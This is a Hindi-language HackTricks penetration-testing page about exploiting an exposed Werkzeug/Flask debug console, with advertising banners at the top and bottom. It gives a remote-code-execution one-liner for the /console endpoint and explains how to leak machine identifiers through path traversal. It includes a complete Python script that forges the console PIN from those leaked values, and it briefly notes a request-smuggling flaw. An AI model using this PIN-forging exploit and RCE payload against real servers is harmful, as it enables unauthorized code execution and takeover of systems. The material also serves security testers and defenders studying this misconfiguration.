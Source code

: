 # Werkzeug / फ्लास्क डीबग

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**सुरक्षा मूल्यांकन और पेनेट्रेशन टेस्टिंग के लिए तत्काल उपलब्ध सेटअप**। कहीं से भी 20+ टूल और सुविधाओं के साथ पूर्ण पेनटेस्ट चलाएं जो पुनरीक्षण से रिपोर्टिंग तक जाते हैं। हम पेनटेस्टर्स को बदलने नहीं हैं - हम उन्हें कुछ समय वापस देने के लिए कस्टम टूल, पहचान और शोषण मॉड्यूल विकसित करते हैं ताकि वे गहराई में खोदने, शैल्स पॉप करने और मज़ा करने में समर्थ हों।

{% embed url="https://pentest-tools.com/" %}

## कंसोल RCE

यदि डीबग सक्रिय है तो आप `/कंसोल` तक पहुँचने और RCE प्राप्त करने का प्रयास कर सकते हैं।
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

इंटरनेट पर कई एक्सप्लॉइट्स भी हैं जैसे [यह](https://github.com/its-arun/Werkzeug-Debug-RCE) या metasploit में एक।

## पिन सुरक्षित - पथ भ्रमण

कुछ मौकों पर **`/console`** एंडपॉइंट को पिन द्वारा सुरक्षित किया जाएगा। यदि आपके पास **फ़ाइल भ्रमण दुरुपयोग** है, तो आप सभी आवश्यक जानकारी लीक कर सकते हैं ताकि उस पिन को उत्पन्न कर सकें।

### Werkzeug कंसोल पिन दुरुपयोग

ऐप में एक डीबग त्रुटि पृष्ठ को देखने के लिए एक डीबग त्रुटि पृष्ठ को बलपूर्वक करें:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
जब वर्क्जुग के डीबग इंटरफेस तक पहुंचने का प्रयास किया जाता है, तो "कंसोल लॉक्ड" स्थिति के संदर्भ में एक संदेश पाया जाता है, जिसमें कंसोल को अनलॉक करने के लिए एक पिन की आवश्यकता होती है। कंसोल पिन का शोध करने के लिए सुझाव दिया जाता है, वर्क्जुग के डीबग प्रारंभीकरण फ़ाइल (`__init__.py`) में पिन जनरेशन एल्गोरिदम का विश्लेषण करके। पिन जनरेशन तंत्र को [**वर्क्जुग स्रोत कोड भंडार**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) से अध्ययन किया जा सकता है, हालांकि संभावित संस्करण विसंगतियों के कारण वास्तविक सर्वर कोड को फ़ाइल ट्रावर्सल वलनरेबिलिटी के माध्यम से प्राप्त करने की सलाह दी जाती है।

कंसोल पिन का शोध करने के लिए, दो सेट के चर `probably_public_bits` और `private_bits` की आवश्यकता होती है:

#### **`probably_public_bits`**

* **`username`**: वह उपयोगकर्ता है जिसने फ्लास्क सत्र प्रारंभ किया।
* **`modname`**: सामान्यत: `flask.app` के रूप में निर्धारित किया जाता है।
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: सामान्यत: **Flask** को हल करता है।
* **`getattr(mod, '__file__', None)`**: फ्लास्क निर्देशिका में `app.py` का पूरा पथ को प्रस्तुत करता है (उदाहरण के लिए, `/usr/local/lib/python3.5/dist-packages/flask/app.py`)। यदि `app.py` लागू नहीं है, **`app.pyc` को प्रयास करें**।

#### **`private_bits`**

* **`uuid.getnode()`**: वर्तमान मशीन का MAC पता प्राप्त करता है, जिसे `str(uuid.getnode())` दशमलव प्रारूप में अनुवादित करता है।
* **सर्वर का MAC पता लगाने** के लिए, व्यक्तिगत नेटवर्क इंटरफेस को पहचानना चाहिए जिसे ऐप द्वारा उपयोग किया जाता है (उदाहरण के लिए, `ens3`)। संदेह के मामले में, **`/proc/net/arp` को लीक करें** उपकरण आईडी खोजने के लिए, फिर **`/sys/class/net/<उपकरण आईडी>/address`** से MAC पता **निकालें**।
*   एक हेक्साडेसिमल MAC पते को दशमलव में रूपांतरित करने के लिए निम्नलिखित प्रक्रिया की जा सकती है:

```python
# उदाहरण MAC पता: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` या `/proc/sys/kernel/random/boot_id` से डेटा को जोड़ता है और `/proc/self/cgroup` की पिछली स्लैश (`/`) के बाद की पहली पंक्ति के साथ।

<details>

<summary>`get_machine_id()` के लिए कोड</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

सभी आवश्यक डेटा को संग्रहित करने के बाद, एक्सप्लॉइट स्क्रिप्ट को निष्पादित किया जा सकता है ताकि Werkzeug कंसोल PIN उत्पन्न किया जा सके। स्क्रिप्ट निर्मित `probably_public_bits` और `private_bits` का उपयोग करता है ताकि एक हैश बनाया जा सके, जिसके बाद इसे और अधिक प्रक्रिया के लिए प्रसंस्करण किया जाता है ताकि अंतिम पिन उत्पन्न किया जा सके। नीचे दिया गया है पायथन कोड इस प्रक्रिया को निष्पादित करने के लिए:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
यह स्क्रिप्ट PIN उत्पन्न करता है जिसे बिट्स को कंकटनेट करके हैश करके, विशेष नमकों (`कुकीसॉल्ट` और `पिनसॉल्ट`) को जोड़कर, और आउटपुट को स्वरूपित करके। यह महत्वपूर्ण है कि `probably_public_bits` और `private_bits` के वास्तविक मान लक्ष्यित सिस्टम से सही ढंग से प्राप्त किए जाने चाहिए ताकि वर्कज़ूग कंसोल द्वारा अपेक्षित PIN के साथ मेल खाए।

{% hint style="success" %}
यदि आप **पुराने संस्करण** पर हैं, तो **sha1** की बजाय **md5 हैशिंग एल्गोरिदम** को बदलने का प्रयास करें।
{% endhint %}

## Werkzeug यूनिकोड वर्ण

[**इस मुद्दे**](https://github.com/pallets/werkzeug/issues/2833) में देखा गया है कि Werkzeug हेडर में यूनिकोड वर्णों के साथ एक अनुरोध को बंद नहीं करता है। और [**इस लेखन**](https://mizu.re/post/twisty-python) में स्पष्ट किया गया है कि यह एक CL.0 अनुरोध स्मगलिंग वंशाजन्यता का कारण बन सकता है।

यह इसलिए है क्योंकि Werkzeug में कुछ **यूनिकोड** वर्ण भेजना संभव है और यह सर्वर **ब्रेक** कर देगा। हालांकि, यदि HTTP कनेक्शन हेडर **`Connection: keep-alive`** के साथ बनाया गया था, तो अनुरोध का शरीर पढ़ा नहीं जाएगा और कनेक्शन अभी भी खुला रहेगा, इसलिए अनुरोध का **शरीर** अगले HTTP अनुरोध के रूप में व्यवहार किया जाएगा।

## संदर्भ

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**सुरक्षा मूल्यांकन और पेनेट्रेशन टेस्टिंग के लिए तुरंत उपलब्ध सेटअप**। कहीं से भी 20+ टूल और सुविधाओं के साथ एक पूर्ण पेनटेस्ट चलाएं जो पुनरीक्षण से रिपोर्टिंग तक जाते हैं। हम पेनटेस्टर्स को बदलने नहीं देते हैं - हम उन्हें वापस कुछ समय देने के लिए कस्टम टूल, पता लगाने और शोषण मॉड्यूल विकसित करते हैं ताकि वे गहराई में खोज कर सकें, शैल्स पॉप कर सकें, और मज़ा कर सकें।

{% embed url="https://pentest-tools.com/" %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो बनाने के साथ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन **HackTricks** में देखना चाहते हैं या **PDF में HackTricks डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** हैकट्रिक्स और हैकट्रिक्स क्लाउड github रेपो में PR जमा करके।

</details>
